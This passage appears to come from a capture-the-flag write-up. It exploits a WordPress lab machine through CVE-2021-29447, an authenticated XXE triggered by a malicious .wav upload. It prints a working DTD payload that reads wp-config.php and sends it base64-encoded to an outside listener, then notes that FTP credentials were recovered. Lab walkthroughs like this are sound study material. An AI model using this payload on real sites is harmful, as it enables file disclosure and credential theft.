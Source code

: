 There were 2 hashes, and one of them could be cracked.&#x20;

<figure><img src="../../../.gitbook/assets/image (2485).png" alt=""><figcaption></figcaption></figure>

Now that we have credentials, we can run the authenticated XXE injection.

{% embed url="https://github.com/motikan2010/CVE-2021-29447" %}

How this exploit works is by using the credentails to make the Wordpress site requests for a `.dtd` file. This is done by uploading a malicious `.wav` file via New Media, making the site request and execute the `.dtd` file. This would allow us to get LFI on the machine.

Following the PoC from the repo above, I was able to replicate it.&#x20;

<figure><img src="../../../.gitbook/assets/image (3745).png" alt=""><figcaption></figcaption></figure>

Using this `.dtd` file, we can grab the `wp-config.php` file:

```markup
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://host.docker.internal:8001/?p=%file;'>" >
```

Within that file, we can find FTP credentials:

<figure><img src="../../../.gitbook/assets/image (942).png" alt=""><figcaption></figcaption></figure>
